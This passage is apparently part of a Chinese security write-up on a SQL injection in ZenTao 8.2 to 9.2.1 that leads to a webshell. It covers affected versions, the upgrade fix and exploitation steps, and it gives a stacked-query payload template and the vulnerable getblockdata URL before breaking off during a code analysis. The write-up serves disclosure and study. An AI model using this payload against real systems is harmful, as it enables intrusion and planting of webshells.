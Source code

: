 [![](https://xzfile.aliyuncs.com/media/upload/picture/20201221163025-c5edc7ca-4366-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201221163025-c5edc7ca-4366-1.png)

### 4.1 禅道 8.2-9.2.1 SQL 注入漏洞导致 Getshell

#### 4.1.1 漏洞简介

漏洞名称：禅道 8.2-9.2.1SQL 注入前台 Getshell  
漏洞编号：无  
漏洞类型：SQL 注入  
CVSS 评分：无  
漏洞危害等级：高危

#### 4.1.2 漏洞概述

禅道项目管理软件集产品管理、项目管理、质量管理、文档管理、组织管理和事务管理于一体，是一款功能完备的项目管理软件。该漏洞影响版本为禅道 8.2--9.2.1。漏洞出现在系统 orm 框架中，在拼接 order by 的语句过程的时候，未对 limit 部分过滤并直接拼接，导致攻击者构造执行 SQL 语句。在 mysql 权限配置不当的情况下，攻击者可利用该漏洞获取 webshell。

#### 4.1.3 漏洞影响

禅道 8.2 - 9.2.1

#### 4.1.4 漏洞修复

1. 建议受影响的用户升级至 ZenTao 9.2.1 以上版本或打上对应补丁包，下载地址：[https://www.zentao.net/download.html](https://www.zentao.net/download.html)

#### 4.1.5 漏洞利用过程

0x0：随便访问一个不存在的路径，返回页面会出现报错，报错回显出文件的存放路径为。

0x1：根据报错回显的路径，构造 SQL 注入语句将木马写入系统的 EXP。

0x2：将上述 EXP 进行 ASCIIhex 加密，得到加密后的字符串。

0x3：然后将加密后的字符串放入：

```
{"orderBy":"order limit 1;SET @SQL=0x(加密后字符串);PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}
```

0x4：然后将上述语句进行 base64 加密。

0x5：最终通过访问以下语句执行漏洞

```
http://siteserver/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64加密字符串
```

#### 4.1.6 代码分析

我们根据漏洞 PoC 来跟踪漏洞执行流程，从技术背景中的路由解析我们可以定位到漏洞存在的模块是 block 模块中的 main 方法，在经过路由解析后，系统将通过 loadModule() 方法加载对应模块，如下图所示：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201221162855-9055d76a-4366-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201221162855-9055d76a-4366-1.png)

在处理完 url 路由后，就开始处理方法中的各种参数，通过 setParamsByGET() 函数将参数解析：
